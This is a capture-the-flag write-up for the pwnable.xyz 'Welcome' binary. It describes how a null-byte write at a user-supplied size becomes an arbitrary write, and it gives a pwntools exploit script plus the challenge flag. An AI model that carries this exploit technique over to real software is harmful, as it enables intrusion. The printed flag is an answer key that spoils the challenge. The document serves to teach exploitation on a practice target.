




# pwnable.xyz - Welcome
Link to binary: https://pwnable.xyz/redisfiles/challenge_21.gz

Description: *Are you worthy to continue?*

## binary
Running `file` and `checksec` commands on the binary, reveals that it's a **64-bit ELF** with all the protections enabled.




This usually means that the vulnerability will either be a **logic mistake** in the code or a **heap** related one, especially if there's no way to get any leaks. I expect nothing too hard though since this is supposed to be a *welcome* challenge.

## ./challenge
Let's run the binary first.



Running the binary prints a leak, asks for a message length and a message of our choice and then exits. If the provided message is bigger than the length specified, the additional characters are ignored. So, let's see what's going on behind the scenes.

## IDA

Decompile the binary with IDA:

### main()


Our goal here is to call `system("cat /flag")` and print the flag on the remote server. To do that, the expression `!*v3` must be true, which means that the first byte of v3 (**v3[0]**) must be equal to **0** but the program sets it to **1** right after it allocates space for the v3 buffer. The program then prints the address of v3 which is our *leak*, so we know where v3 is located, but it is not used again in the binary.

On our part, we control the **size** or **size[0]** variable through scanf() which is used to allocate a buffer (**v4**) of that size. We can also write up to that many bytes in the v4 buffer.

## vulnerability
The issue here is that the program attempts to write a null byte (as it should) at the end of the v4 buffer after writing to it, `v4[size[0] - 1] = 0` but in a not secure way. Since we control the size[0] variable, this line of code introduces an **arbitrary write** vulnerability through the v4 buffer, which allows us to write a **0** (null byte) **wherever** we want in the address space.

## attack plan
Now it should be pretty obvious what we're trying to do.. We just have to specify the leaked address of the v3 buffer as the message length and add 1 to it, so that line 21 will look something like this: `v4[v3[0]] = 0` which will successfully write a **0** at the first byte of **v3** and print the flag.

## exploit
Here is the script that grabs the leak and sends it as the message length:

```python  
#!/usr/bin/python
from pwn import *

elf = context.binary = ELF("./challenge", checksec=False)
context.terminal = ['alacritty', '-e']
context.encoding = 'ascii'
context.gdbinit = '~/.config/gdb/.gdbinit'

gs = \
'''
b *__libc_start_main+133
'''

IP = "svc.pwnable.xyz"
PORT = 30000 

def start(logging='notset'):
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote(IP, PORT, level=logging)
    else:
        return process(elf.path, level=logging)

def pwn():
    io = start()
    
    # Receive buffer leak
    io.recvuntil(": ")
    leak = int(io.recvline()[:-1], 16)
    log.info(f"buf leak: {hex(leak)}")
	
	# Send leak
    io.sendlineafter(": ", str(leak+1))
    io.sendlineafter(": ", "")
    
    print(io.recvall())

if __name__ == "__main__":
    pwn()
```

Run it on the server and we get the flag: `FLAG{did_you_really_need_a_script_to_solve_this_one?}`
(ouch)
